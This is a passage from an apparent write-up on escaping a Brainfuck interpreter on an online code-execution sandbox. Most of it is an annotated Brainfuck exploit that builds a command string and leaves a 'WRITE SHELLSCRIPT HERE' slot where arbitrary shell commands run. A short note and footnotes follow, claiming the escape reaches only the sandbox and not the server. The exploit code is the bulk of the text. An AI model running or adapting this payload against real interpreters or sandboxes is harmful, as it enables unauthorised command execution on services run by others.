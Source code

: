 ``` brainfuck
# >>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>> 103
# >>>->+[->+>[<]<]>>--<+[-<+]>>+[-<+[<]< <<+>> >>[>]>+]<<[-<]<
# << +++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++ 133
# [<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<++++>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>-] 103 4 103

# make command string
# +[->+>[<]<]>>-
# ++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++ 256
# [
#     >>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
#     --- 3
#     ++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++ 256
#     ++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
#     ++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
#     <<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<-
# ]
# >>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
# --------------------------------------------------------------------------------------------------- 99

# comment out
# <<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<< move to zero
# [



WRITE SHELLSCRIPT HERE



# ]
```

## note

This is safe for the server.
This cracks only the brainfuck interpreter, but the sandbox.
You can do only things, that you can do when you choose the bash language on the sandbox.


[^1]: As you know, the Turing-completeness has nothing to do with this exploitation.
[^2]: This article is written in English[^3], because some of those who I want to be read by are not Japanese.
[^3]: However I'm a Japanese, so you should read this いい感じ-fully.